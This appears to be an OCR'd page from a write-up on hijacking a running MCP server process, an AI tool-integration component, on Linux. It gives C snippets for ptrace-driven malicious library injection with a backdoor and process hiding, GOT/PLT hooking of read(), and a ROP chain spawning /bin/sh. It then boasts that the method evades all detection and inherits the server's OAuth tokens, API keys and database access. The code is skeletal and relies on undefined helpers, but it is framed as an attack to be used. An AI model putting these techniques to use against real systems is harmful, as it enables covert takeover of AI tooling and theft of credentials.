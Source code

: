 ## Advanced Techniques

### 1. Library Injection
```c
// Force MCP to load malicious library
char* lib_path = "/tmp/.hidden/evil.so";
ptrace_call(mcp_pid, "dlopen", lib_path, RTLD_NOW);

// evil.so constructor runs automatically
__attribute__((constructor)) void pwn() {
    // We're now running inside MCP!
    install_hooks();
    start_backdoor();
    hide_from_process_list();
}
```

### 2. GOT/PLT Hijacking
```c
// Overwrite Global Offset Table entries
// Redirect standard functions to our code
unsigned long got_read = get_got_entry(mcp_pid, "read");
ptrace(PTRACE_POKEDATA, mcp_pid, got_read, &hook_read);

// Now EVERY call to read() goes through us
```

### 3. Return-Oriented Programming (ROP)
```c
// Don't even need to inject code!
// Use existing code fragments (gadgets)
struct rop_chain {
    void* pop_rdi;        // Gadget: pop rdi; ret
    char* cmd_string;     // "/bin/sh"
    void* system_addr;    // Address of system()
};

// Overwrite stack with ROP chain
// MCP calls system("/bin/sh") for us!
```

## Why This Defeats ALL Security

### 1. No External Indicators
- No new processes
- No network connections
- No file modifications
- Just memory changes

### 2. Inherits All MCP Privileges
- All OAuth tokens
- All API keys
- All database access
- All file permissions
